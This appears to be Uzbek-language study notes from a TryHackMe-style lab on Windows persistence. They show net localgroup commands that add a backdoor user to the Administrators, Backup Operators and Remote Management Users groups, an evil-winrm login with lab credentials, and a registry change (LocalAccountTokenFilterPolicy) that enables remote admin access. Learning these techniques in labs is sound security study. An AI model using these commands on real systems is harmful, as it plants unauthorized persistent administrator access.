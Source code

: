 # Bo'rimiz, gohida qo'yni maskasini ham kiyishimizga to'g'ri keladi)
Bizda Admin huquqi bor backdoor user qoldirishimiz, keyingi ishalrni o'sha userlardan qilishimiz mumkin.

### Userni Guruhlarga qo'shish
Adminlar gruppasiga:
```
net localgroup administrators __username__ /add
```

BackUp gruppasiga:
```
net localgroup "Backup Operators" __username__ /add
```

Remote management group:
```
net localgroup "Remote Management Users" __username__ /add
```
Bu bizga masofadan ulanishga imkon yaratadi.


### Userga ulanish:
```
evil-winrm -i 10.10.187.100 -u thmuser1 -p Password321
```
Agar o'rnatilmagan bo'lsa, Arch uchun buyruq:
```
sudo pacman -S evil-winrm
```

Agar biz **evil-winrm**dan foydalanmasdan GUI tarzda ulanishni istasak muhitni quyidagicha qilishimiz kerak:
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
